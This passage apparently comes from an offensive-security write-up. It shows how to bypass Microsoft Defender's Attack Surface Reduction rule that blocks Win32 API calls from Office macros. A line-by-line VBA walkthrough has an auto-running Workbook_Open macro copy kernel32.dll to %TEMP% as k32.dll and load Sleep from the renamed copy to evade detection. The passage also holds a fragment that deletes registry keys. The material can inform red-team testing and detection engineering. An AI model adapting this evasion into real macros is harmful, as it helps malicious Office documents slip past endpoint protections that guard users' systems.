 ```
    wsh.RegDelete regKeyLocalServer
    wsh.RegDelete regKeyClass
End Sub
```

* * *

### Block Win32 API calls from Office macro

“**Malware can use macro code in Office files to import and load Win32 DLLs, which can then be used to make API calls to allow further infection throughout the system. This rule attempts to block Office files that contain macro code that is capable of importing Win32 DLLs.**” docs.microsoft.com

### ASR Rule Bypass via DLL Copy and API Call

#### Goal:

Bypass ASR rules that prevent Office applications (e.g., Word, Excel) from calling **Win32 APIs** or executing certain **malicious behaviors** (like code injection or suspicious child processes).

#### Technique Breakdown

```
Private Declare PtrSafe Sub Sleep Lib "k32.dll" (ByVal dwMilliseconds As Long)
```

- This declares the Sleep function from a DLL named k32.dll.
- `PtrSafe` is for 64-bit Office compatibility.
- Normally you’d write `Lib "kernel32.dll"` — but you’re using a **renamed copy** to evade ASR detection.

```
Sub Workbook_Open()
```

- Auto-executes when the Office document is opened (via macro auto-run).

```
WscriptExec ("cmd.exe /C copy /b C:\windows\system32\kernel32.dll " & Environ("TEMP") & "\k32.dll")
```

- Copies `kernel32.dll` to `%TEMP%\k32.dll`.
- Uses `/b` to copy as binary.
- This is the **bypass trick**: you’re still using `kernel32.dll`, but with a different **name and path**, so ASR doesn’t recognize it.

```
CreateObject("WScript.Shell").CurrentDirectory = Environ("TEMP")
```

- Changes the **current working directory** to `%TEMP%`, where your renamed `k32.dll` now resides.

```
Sleep 2000
```

- Calls the `Sleep` function (waits 2 seconds).
- The `k32.dll` is loaded instead of the standard `kernel32.dll`, and the function executes **without triggering ASR rules**.
